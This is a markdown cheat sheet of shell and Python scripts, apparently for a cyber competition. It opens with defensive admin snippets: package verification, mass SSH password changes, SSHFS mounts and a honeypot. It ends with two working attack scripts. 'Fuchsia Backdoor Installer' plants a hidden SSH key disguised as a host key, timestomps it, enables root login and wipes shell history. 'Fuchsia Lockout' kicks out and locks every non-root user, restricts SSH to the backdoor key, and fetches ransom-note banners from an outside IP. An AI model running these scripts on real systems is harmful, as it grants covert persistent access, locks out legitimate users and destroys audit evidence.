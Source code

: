 # Scripts

### Quick Commands

* RHEL verify all packages: `rpm -Va`
  * Output only if different, checks perms and hashes
* Debian verify all packages: `debsums`
  * Need to install
* Kill all PTYs that are not yours: `` kill -9 `pgrep '^(bash|sh)' | grep -v $$` ``
* Get established connections: `netstat -tpn 2>/dev/null || netstat -an | grep ESTABLISHED`
* Get listening ports: `netstat -tln 2>/dev/null || netstat -an | grep LISTEN`
* List kernel modules: `lsmod || modinfo`

### Control
* Run command on one host: `ssh <hostname> -l <username> <username> <command>`
  * Username only needed if not `root`
* Run command on all hosts: `pssh -h <hosts_file> -l <default_username> <command>`
  * Username only needed if not `root`
  * If `pssh` command doesn't exist, try `parallel-ssh`
  * `pssh` must be installed before use
* Run command on one host (ansible): `ansible <hostname> -m raw -a "<command>"`
* Run command on all hosts (ansible): `ansible all -m raw -a "<command>"`
* Run ansible playbook: `ansible-playbook name_of_playbook.yml`

### SSH Initial Spray

```
$ sudo apt install sshpass pssh
$ OP=<old_password>
$ NP=<new_password>
$ for i in {1..255}; do sshpass -p "$OP" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=10 <user>@10.X.X.$i "echo -e '$OP\n$NP\n$NP' | passwd" && echo 10.X.X.$i >> success & done
$ sshpass -p "$NP" parallel-ssh -h success -l <user> -t 5 -A "<sudo> /sbin/iptables -I INPUT 1 -p tcp --dport 22 -j ACCEPT && <sudo> /sbin/iptables -I INPUT 2 -j DROP"
```
Notes:
* Change `<user>` to be `root` and any admin user names provided
* Change `10.X.X` to be actual subnet
* Change `1..255` to actually represent range of IP addresses in our environment
* Change `$OP\n$NP\n$NP` to `$NP\n$NP` if <user> == root
* Need manual password change on *BSD, Solaris
* Need manual firewall on OpenSUSE (firewalld), *BSD (PfCTL), and Solaris (ipfilter)
 
###### Second round
```
$ for s in $(cat success); do read pass; echo "Changing $s to $pass"; sshpass -p "$NP" ssh <user>@$s "echo -e '$NP\n$pass\n$pass' | passwd & done
```

### Copy Keys

Prep: `ssh-keygen`

```
#!/usr/bin/env bash

while [ true ]
do
    echo "IP address:"
    read IP
    echo "Hostname:"
    read HOSTNAME
    ssh-copy-id root@$IP
    echo "$IP $HOSTNAME" | sudo tee -a /etc/hosts
    echo $HOSTNAME | sudo tee -a /etc/servers
    mkdir -p /servers/$HOSTNAME
done
```

### Mount SSHFS

```
#!/bin/bash

sudo mkdir -p /servers
sudo chown root:toads /servers
sudo chmod 0775 /servers

for s in $(cat /etc/servers); do
  sudo umount /servers/$s #>/dev/null 2>&1 || true
  rmdir /servers/$s #>/dev/null 2>&1 || true
  mkdir /servers/$s
  sshfs -o allow_other,ServerAliveInterval=20,reconnect root@$s:/ /servers/$s
done
```

### Convert ARP entries to static

```
$ arp -an | awk -F' ' '{print $2 $4}' | cut -d'(' -f2 | while IFS=')' read ip mac
> do arp -s $ip $mac
> done
```

### Honeypot (run command on connection)

```
#!/usr/bin/env python
import os, socket, select

ports = [12345, 12346]
socks = []

for p in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", p))
    s.listen(5)
    socks.append(s)
    
while True:
    r, w, err = select.select(socks, [], [])
    for s in r:
        c, addr = s.accept()
        c.shutdown(socket.SHUT_RDWR)
        c.close()
        os.system('wall "suspicious connection from IP: " ' + addr[0])
```

### Procedurally Generate Tripwire Configuration

```
for S in `ls /servers`; do
  echo "( rulename = "$S", severity = 100)">>~/twpol.txt
  echo "{">>~/twpol.txt
  for D in `ls /servers/$S | grep -v dev | grep -v srv | grep -v proc`; do
    echo "/servers/$S/$D -> \$(ReadOnly) (recurse = true);">>~/twpol.txt
  done
  echo "}">>~/twpol.txt
done
```

### Fuchsia Backdoor Installer

```
echo "PUBKEY HERE" >> /etc/ssh/ssh_host_rsa2048_key.pub
touch -r /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa2048_key.pub
sed -i 's/\#AuthorizedKeysFile.*/AuthorizedKeysFile .ssh\/authorized_keys \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
kill -HUP $(pgrep -f `which sshd`)
history -c
echo "" > ~/.bash_history
```


### Fuchsia Lockout

```
who | awk '!/root/{ cmd="/sbin/pkill -KILL -u " $1; system(cmd)}'

echo "Kicked em out!"

cp /etc/passwd /etc/passwd.backup.shad0wfuchsia
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup.shad0wfuchsia

echo "User table backed up"

echo "Locking users..."

for USERNAME in `cut -d: -f1 /etc/passwd | grep -v root`
do
  sudo passwd -l $USERNAME
done

echo "All users locked"

# Set authorized keyfile to ONLY backdoor key
sed -i 's/\AuthorizedKeysFile.*/AuthorizedKeysFile \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config

# Disable password authentication
sed -i 's/#PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config

# Remove any existing allowusers directive, replace with root only
sed -i 's/AllowUsers.*/\#/' /etc/ssh/sshd_config
echo -e ' \n' >>/etc/ssh/sshd_config
echo 'AllowUsers root' >> /etc/ssh/sshd_config

sed -i 's/Banner.*/\#/' /etc/ssh/sshd_config
sed -i 's/#Banner.*/\#/' /etc/ssh/sshd_config
echo 'Banner /etc/fuchsia_banner' >> /etc/ssh/sshd_config

echo "SSH Configuration finished"

rm /etc/motd
wget -O /etc/fuchsia_banner http://67.205.157.179/fus-nocolor.txt
wget -O /etc/nologin http://67.205.157.179/fus.txt

echo "Ransom notes installed"

cat >~/unfuck.sh <<EOL
#!/bin/bash

wget -qO - http://67.205.157.179/paid.txt

echo "Reverting changes..."
mv /etc/passwd.backup.shad0wfuchsia /etc/passwd
mv /etc/ssh/sshd_config.backup.shad0wfuchsia /etc/ssh/sshd_config
rm /etc/nologin
echo "" >/etc/fuchsia_banner

for USERNAME in \`cut -d: -f1 /etc/passwd | grep -v root\`
do
  sudo passwd -u $USERNAME
done

echo -e "System configuration restored.\nBye!"
rm -- "\$0"
EOL

kill -HUP $(pgrep -f `which sshd`)

echo "!!!CHANGE THE ROOT PASSWORD"

history -c
echo "" > ~/.bash_history
```

